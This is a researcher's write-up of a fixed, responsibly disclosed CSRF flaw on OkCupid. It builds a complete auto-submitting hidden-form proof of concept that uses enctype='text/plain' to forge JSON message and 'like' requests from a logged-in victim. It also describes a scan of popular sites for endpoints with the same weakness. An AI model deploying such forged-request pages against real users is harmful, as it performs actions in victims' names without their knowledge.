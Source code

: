 ```yaml
---
title: how to be popular
author: yan
date: 2021-08-02
url: /csrf/

---
```


This is a quick blog post about a security vulnerability (now fixed) that allowed me to make anyone like or message a profile on okcupid.com simply by getting them to click a link on my website. In doing so, I used one of the most boring web application security issues (CSRF) combined with a somewhat interesting JSON type confusion.

Proof that it worked on a friend who agreed to help me with security testing and is definitely NOT a rabbit:

![Definitely not a rabbit](https://lh3.googleusercontent.com/u/0/d/156ROQFdMqW1BxcuBRo3AWDAzMMcp3SFt=w2772-h1604-iv2)

## A short recap of CSRF

The story, like many, began with me opening devtools and checking if websites were sending CSRF tokens alongside requests that require authentication, like sending messages to another user from your account. [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery) is an attack whereby an attacker sends a link to a victim which, when visited in the victim's browser, performs some action on behalf of the victim on a site that they are logged into. So for instance, if Bob is logged into Facebook, and Facebook doesn't have CSRF mitigations on the endpoint that deletes a user's account, then Alice can trick him into deleting his Facebook account by sending him a hidden link to `https://facebook.com/delete` (which is not the actual URL that deletes your FB account). 

In this case, I noticed that OkCupid messages are sent via POST requests to `https://www.okcupid.com/1/apitun/messages/send` with a JSON-encoded body like so:

```
{"receiverid": "123", "body": "sup"}
```

Conspicuously, there was no CSRF token sent in the request. CSRF tokens are a common way to mitigate these attacks by including an unguessable secret token as an additional HTTP header or POST parameter. The receiving endpoint only allows the request after validating the token; the idea being that while Bob's authentication cookies are sent automatically by his browser when he clicks on Alice's malicious link, Alice isn't able to include a valid CSRF token in the link and therefore the request will fail. 

## But what about the same-origin policy?

Web developers should be aware that the most fundamental security policy of the web is the same-origin policy: a website on one origin (AKA a scheme + host tuple) running in the browser should not be able to access data on a distinct origin unless the other origin explicitly allows it via a mechanism like [Cross-Origin Resource Sharing](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS) (CORS). You might be tempted to think that CSRF isn't possible if your website doesn't send a CORS header.

The problem is that certain types of requests don't care about CORS, and the rules for this are not obvious. For instance:

1. If your site tries to GET a cross-origin image using XHR, it's blocked by default.
2. If your site instead loads the image via an `img` tag instead, it works.
3. If your site sends a POST to another origin via the fetch API, it's blocked by default.
4. If your site instead sends the POST by clicking the submit button on an HTML `form` element via javascript, it works.

## Doing it in practice

So how do we create a webpage which sends a cross-origin POST request to the OkCupid message-sending endpoint? This was attempt #1:

```
<html>
  <body>
    <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send">
      <input style='display:none' name='foo' value='bar'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

I visited this on a localhost server and got a very helpful error message after the form was auto-submitted:

![attempt 1](https://lh3.googleusercontent.com/u/0/d/1xlriwXYOkHpQFPVF2SnSi0C2lDKYIQOA=w2772-h1604-iv2)

Interesting - it's not complaining that the request is initiated by some random origin, but rather that the POST body (`foo=bar`) is invalid JSON! Maybe we can fix that with a weird trick:

```
<html>
  <body>
    <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send">
      <input style='display:none' name='{"foo":"' value='bar"}'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

My reasoning here was that the browser converts the `name` and `value` attributes on HTML `input` elements into `name=value` in the POST body that gets sent over the wire; so if `name` is `{"foo":"` and `value` is `bar"}`, this would become `{"foo":"=bar"}` which would be JSON-parsed into the bizarre-looking object `{foo: '=bar'}` without a problem. With a rush of hope unfelt since before the pandemic, I loaded this up in my browser and saw:

![attempt 2](https://lh3.googleusercontent.com/u/0/d/1RQPrqD0tz1ew8uCa6XSj4Nqw7SYLen_h=w2178-h1604-iv2)

... the exact same error. But this time it was because my beautiful POST body had been URL-encoded to become the ugly-but-safe string `%7B%22foo%22%3A%22%3Dbar%22%7D`. If only there were a way to tell the browser to not encode this form body!

Luckily the W3C deities gave us exactly such a gift in the form (pun intended) of the `enctype` [attribute](https://developer.mozilla.org/en-US/docs/Web/API/HTMLFormElement/enctype). 

```
<html>
  <body>
    <form id="form" method="post" enctype="text/plain" action="https://www.okcupid.com/1/apitun/messages/send">
      <input style='display:none' name='{"foo":"' value='bar"}'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

With the help of `enctype="text/plain"`, the payload is finally sent in its true form (pun intended again) of `{"foo":"=bar"}`:

![attempt 3](https://lh3.googleusercontent.com/u/0/d/1S3vsIlvQL1m8Sa_RzwG5w59ttrBZyuJI=w2178-h1604-iv2)

Putting it all together, the following HTML will automatically send a message that says "I am a rabbit" to the fake userID 123. (Finding out someone's real userID is left as an exercise to the reader.)

```
<html>
  <body>
    <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send" enctype="text/plain">
      <input style='display:none' name='{"foo":"' value='", "receiverid":"123", "body":"i am a rabbit", "source":"desktop_global", "service":"other"}'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

Note that the POST body becomes `{"foo":"=", "receiverid":"123", "body":"i am a rabbit","source":"desktop_global", "service":"other"}`. Because the browser inserts a `=` between the name and value attributes, this gets set to the value of a dummy key, `foo`, which okcupid fortunately ignores. 

I uploaded this HTML to my website, visited the link, and voila:

![finally](https://lh3.googleusercontent.com/u/0/d/1iUiCZE2T-iCN9wWQZMsXEs8bq5CJCiXj=w2772-h1604-iv3)

It works! ... Or would work if I had finished my test profile so I could send messages to other users.

Too lazy to do this myself, I sent my CSRF link with my own userID filled in to some friends. Lo and behold, my OkCupid test profile was seranaded by a series of messages that they didn't mean to send me.

![beloved](https://lh3.googleusercontent.com/u/0/d/1bN7-RmZ15d4H0QhRHBz55XszCn8Zs1O9=w2772-h1604-iv1)

I briefly felt very popular, which made it all worthwhile.

## Parting thoughts

Besides making other users unknowingly message your OkCupid profile or someone else's profile of your choosing, I found you could use essentially the same vulnerability to get other users to "like" your profile. Obviously you could abuse this in order to match with anyone you could trick into clicking a link, or you could spam the link to a bunch of people to increase your profile's rankings in whatever mysterious algorithm OkCupid uses to suggest people.

It also occurred to me that if I redirected my website to the CSRF link that automatically sent a message to me, I could see the OkCupid profiles of my website visitors who were logged into okcupid.com, which would make for an intense web analytics tool.

The obvious fix is for OkCupid to require a CSRF token for these authenticated endpoint, but my attack also relied on the fact that these endpoints were happy to accept POSTs with `content-type: text/plain` even though they actually expected JSON. This made me curious if other sites were making the same mistake, so I quickly scraped some of the Alexa top sites looking for requests to endpoints containing `api` or `json`.

Once I had a list of a few hundred endpoints, I sent each of them a POST with `content-type: text/plain` and body `{"foo":"bar"}`. 87 out of 215 of these endpoints didn't error, and many appeared to return JSON responses indicating success. Granted most of these are probably not authenticated endpoints and some of them may need to accept non-JSON text, but this suggests to me that developers should be careful accepting `text/plain` inputs on endpoints that parse JSON.

### Disclosure timeline

This was reported to OkCupid in April 2021. According to their team, it was fixed without delay which prevented exploitation of the bug. I would like to thank their security team for the bounty and permission to share this blog post.

